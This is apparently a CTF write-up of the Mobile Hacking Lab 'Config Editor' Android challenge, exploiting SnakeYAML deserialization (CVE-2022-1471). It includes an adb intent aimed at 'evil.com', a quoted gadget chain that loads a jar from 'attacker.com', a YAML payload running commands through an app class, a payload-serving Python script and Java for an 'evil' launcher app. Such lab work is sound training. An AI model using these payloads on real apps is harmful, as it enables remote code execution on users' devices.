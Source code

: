 ```yaml
---
title:  "Mobile Hacking Lab Config Editor Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Config Editor](https://www.mobilehackinglab.com/course/lab-config-editor-rce) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a page with "load" and "save" buttons and a text input area. When we press the load button, it opens the file manager for us to select a file and we can load example.yml file that created by app. Also we can write something to text area and save it with save button. Before saving file, it recommends a file name with yml extension again. Let's open it with jadx to understand the app.

![](/assets/images_mhl_configeditor/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. Also, the type of data we will send with intent is expected to be yaml.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://evil.com"
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_configeditor/mainactivity.png)
 
Inside the onCreate function, handleIntent method called after setting the view of activity.

### handleIntent Function

![](/assets/images_mhl_configeditor/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it loads the yaml file with loadYaml function. During download and save processes getLastPathSegment function leads to file write with directory traversal vulnerability but this is not the case we will look into in this post. I explained that vulnerability on my [previous post](https://sh4d0wlesss.github.io/writeup/Mobile-Hacking-Lab-Document-Viewer-Challenge-Writeup/). This challenge have same vulnerability too. If you dont trust me go and test it :D

### loadYaml Function

![](/assets/images_mhl_configeditor/loadYaml.png)

loadYaml function gets the file from given uri and loads it with yaml.load function. This load function comes from snakeyaml(org.yaml.snakeyaml) package. This is a popular java library to parse yaml files. Some tips were given on the challenge page, and these tips mentioned finding a vulnerability in a 3rd party library. Since there is no native library file in the apk, the vulnerable library may be the snakeyaml library. Also, about a week before I wrote this article, I watched a [video prepared by mdisec](https://www.youtube.com/watch?v=IPrRccHlgLM) on YouTube, and while trying to solve this challenge, I remembered that the snakeyaml library was also mentioned in that video. In the video, a deserialization vulnerability(`CVE-2022-1471`) in the snakeyaml library is mentioned and the exploitation stages are shown in practice.

#### CVE-2022-1471

As far as I understand from the blog posts I read while researching this vulnerability, during the serialization we can specify the object inside the yaml file and snakeyaml will use this class name for creating object from same class during deserialization(also snakeyaml add that classnames when yaml.dump fucntion called for serialization). For example, we can specify the object type as car inside the yaml:
```yaml
car: 
  !!sample.car
  brand: kia
  model: rio
  year: 2004
  type: stationwagon
```
We can write the any class(must be in classpath) we want in the yaml file and the vulnerability is revealed here. Here is the example gadget chain shared as poc for this vuln:
```yaml
#ref: https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471

person: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL [http://attacker.com/malicious-code.jar]
    ]]
]
```
With this chain (If the attacker can control the content of the yaml file) attacker can get remote code execution. I will not explain the details of the attack in this article. If you want to examine the detailed stages of this attack, [I highly recommend this blog post.](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) I tried this payload with app but it gives error because ScriptEngineManager class not found. [After some research](https://stackoverflow.com/questions/46320972/engine-eval-returns-null-in-android-studio) i saw that ScriptEngineManager is not available on Android by default. Instead of that everyone recommend `rhino` but im not a Android developer and i didnt understand anything that i read about that topic :D

But we need to get a remote code execution somehow. As you can see in the first picture I added at the beginning of the article, there is another class called LegacyCommandUtil in the application.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```
Inside the constructor of this class, a "command" executed with runtime exec function. We can use this class to exploit this vulnerability because we can access this class. Here is the sample yaml file:
```yaml
cartcurt: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/poc.txt"]
```
If this payload works, poc.txt file will be created inside the application directory. For serving this file i used my hacky server code from previous post :
```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('hacky.yml', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()
```
and the adb command for sending proper intent:
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.action.intent.VIEW -d "http://10.0.3.2:1234"
# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
Here is the result(video):

[![](https://img.youtube.com/vi/vhk_WS9Da_0/0.jpg)](https://youtu.be/vhk_WS9Da_0)

It works! If you want to make same thing with evil application, here is my sample code:
```java
package com.example.exploitconfigeditor;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("http://10.0.3.2:1234");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.configeditor","com.mobilehackinglab.configeditor.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And poc video:

[![](https://img.youtube.com/vi/YGbHG2m4clM/0.jpg)](https://youtu.be/YGbHG2m4clM)

We can run code remotely with small yaml file :)

Sad note:
- I have tried lots of payloads to get reverse shell but i failed. [As mentioned here](https://stackoverflow.com/questions/25199307/unable-using-runtime-exec-to-execute-shell-command-echo-in-android-java-code), exec function does not execute [shell builtins](https://www.networkworld.com/article/967046/how-to-identify-shell-builtins-aliases-and-executable-files-on-linux-systems.html), it executes executables and for getting reverse shell i need to pass string array to constructor. Also i tried payloads with ${IFS} but they didn't work. If you can create working reverse shell payload please dm me on twitter or linkedin
- In this example we have a class that executes commands but in real world scenario i dont know how i can get remote code execution on android app with this vulnerability. If you can get rce on this challenge with another method, please dm me 👀

Thanks for reading! See you in next writeups :)
